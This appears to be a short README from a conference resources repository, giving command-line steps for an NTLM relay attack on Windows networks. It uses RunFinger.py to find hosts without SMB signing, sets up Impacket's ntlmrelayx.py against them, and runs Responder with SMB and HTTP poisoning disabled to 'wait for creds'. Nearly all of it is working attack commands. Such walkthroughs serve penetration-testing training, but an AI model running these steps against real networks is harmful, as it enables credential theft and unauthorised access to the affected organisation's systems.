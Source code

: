 # DojoConf-Recursos

comando de Busqueda herramientas:
find /var/log/ -name "error.log" -print

1. Identify network systems that do not require SMB message validation
    1.1 Run python  RunFinger.py -i IP_Range to detect machine with SMB signing:disabled.
    1.2 Configure Impacket’s NTLMrelayx to target those systems
    1.3 echo "IP"  >> targets.txt
    1.4 ntlmrelayx.py -tf targets.txt --smb2support
2. Disable SMB and HTTP response poisoning in Responder and launch
    cd /usr/share/responder
    gedit Responder.conf
3. Open the Responder.conf file and set the value of SMB and HTTP to Off
    Responder.py -I eth0 -rdw
Wait for creds

